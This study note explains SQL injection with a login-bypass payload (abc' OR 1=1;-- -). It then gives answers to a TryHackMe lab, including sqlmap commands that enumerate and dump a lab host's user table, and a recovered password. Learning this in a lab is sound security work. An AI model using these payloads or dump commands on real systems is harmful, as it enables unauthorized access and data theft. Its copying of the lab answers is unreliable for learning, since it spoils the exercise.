 # SQL Injection Attacks 

## Introduction: 
This content explains how websites and applications work with databases using SQL queries. It focuses on how attackers exploit weaknesses in these queries through SQL injection. 

## Key Points: 
1. Interaction with Databases: 

• Applications use SQL queries to store, modify, and retrieve data from databases. 

• An example of a login page asks for a username and password, creating an SQL query to check the credentials. 

2. Example SQL Query: 

• When a user enters credentials (e. g. , Username: John, Password: Un@detectable444), the application constructs a SQL query: 
``` 
SELECT FROM users WHERE username = 'John' AND password = 'Un@detectable444'; 
``` 
• The database checks if both conditions are met to return user details. 

3. SQL Injection Vulnerability: 

• If input is not properly validated, attackers can input malicious SQL code. 

• SQL injection can compromise critical data stored in databases. 

4. Injection Example: 

• An attacker can exploit a vulnerability by entering: 

• Username: John 

• Password: abc' OR 1=1;-- - 

• The resulting SQL query becomes: 

``` 
SELECT FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -'; 
``` 
• The condition OR 1=1 always evaluates to true, allowing unauthorized access. 

5. Importance of Input Validation: 

• Proper input validation and sanitization can prevent SQL injection attacks. 

• The attacker uses a single quote after "abc" to manipulate the query structure successfully. 

## Conclusion: 
SQL injection is a serious security risk that can allow unauthorized access to sensitive information. Understanding how SQL queries function and the impact of improper input validation is crucial for securing applications against these types of attacks. Always ensure to obtain permission before testing for SQL vulnerabilities.

# Try Hack Me

- Q: Which flag in the SQLMap tool is used to extract all the databases available?

- A: --dbs

- Q: What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)
- A: sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables

- Q: What is the name of the table available in the "ai" database?

- A: user

- C: sqlmap -u 'http://10.10.181.98/ai/includes/user_login?email=test&password=test'  --tables --level=5


- Q: What is the password of the email test@chatai.com?

- A: 12345678

- C: sqlmap -u 'http://10.10.181.98/ai/includes/user_login?email=test&password=test'  --tables --level=5 -D ai -T user --dump

